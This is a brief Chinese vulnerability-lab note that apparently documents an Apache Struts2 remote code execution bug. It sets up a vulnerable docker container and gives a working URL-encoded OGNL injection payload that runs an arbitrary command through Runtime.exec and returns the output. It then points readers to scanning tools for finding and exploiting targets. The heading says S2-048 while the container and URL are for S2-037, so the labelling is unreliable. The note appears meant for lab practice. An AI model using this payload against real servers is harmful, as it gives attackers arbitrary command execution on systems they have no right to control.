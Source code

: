 ### S2-048 远程代码执行漏洞
### 环境搭建
```
docker pull medicean/vulapps:s_struts2_s2-037
docker run -d -p 8080:8080 medicean/vulapps:s_struts2_s2-037
```
### exploit

http://127.0.0.1:8080/orders/4/[payload]

```
(%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23wr%3d%23context%5b%23parameters.obj%5b0%5d%5d.getWriter(),%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr.println(%23rs),%23wr.flush(),%23wr.close()):xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=16456&command=id
```
### 如何扫描并利用
方法一：
直接使用工具进行扫描（超级厉害，感叹别人比自己强能写出这样便利的工具，用的时候记得点赞）
https://github.com/HatBoy/Struts2-Scan

方法二：
安装burpsuite插件J2EESCAN并使用scanner模块扫描

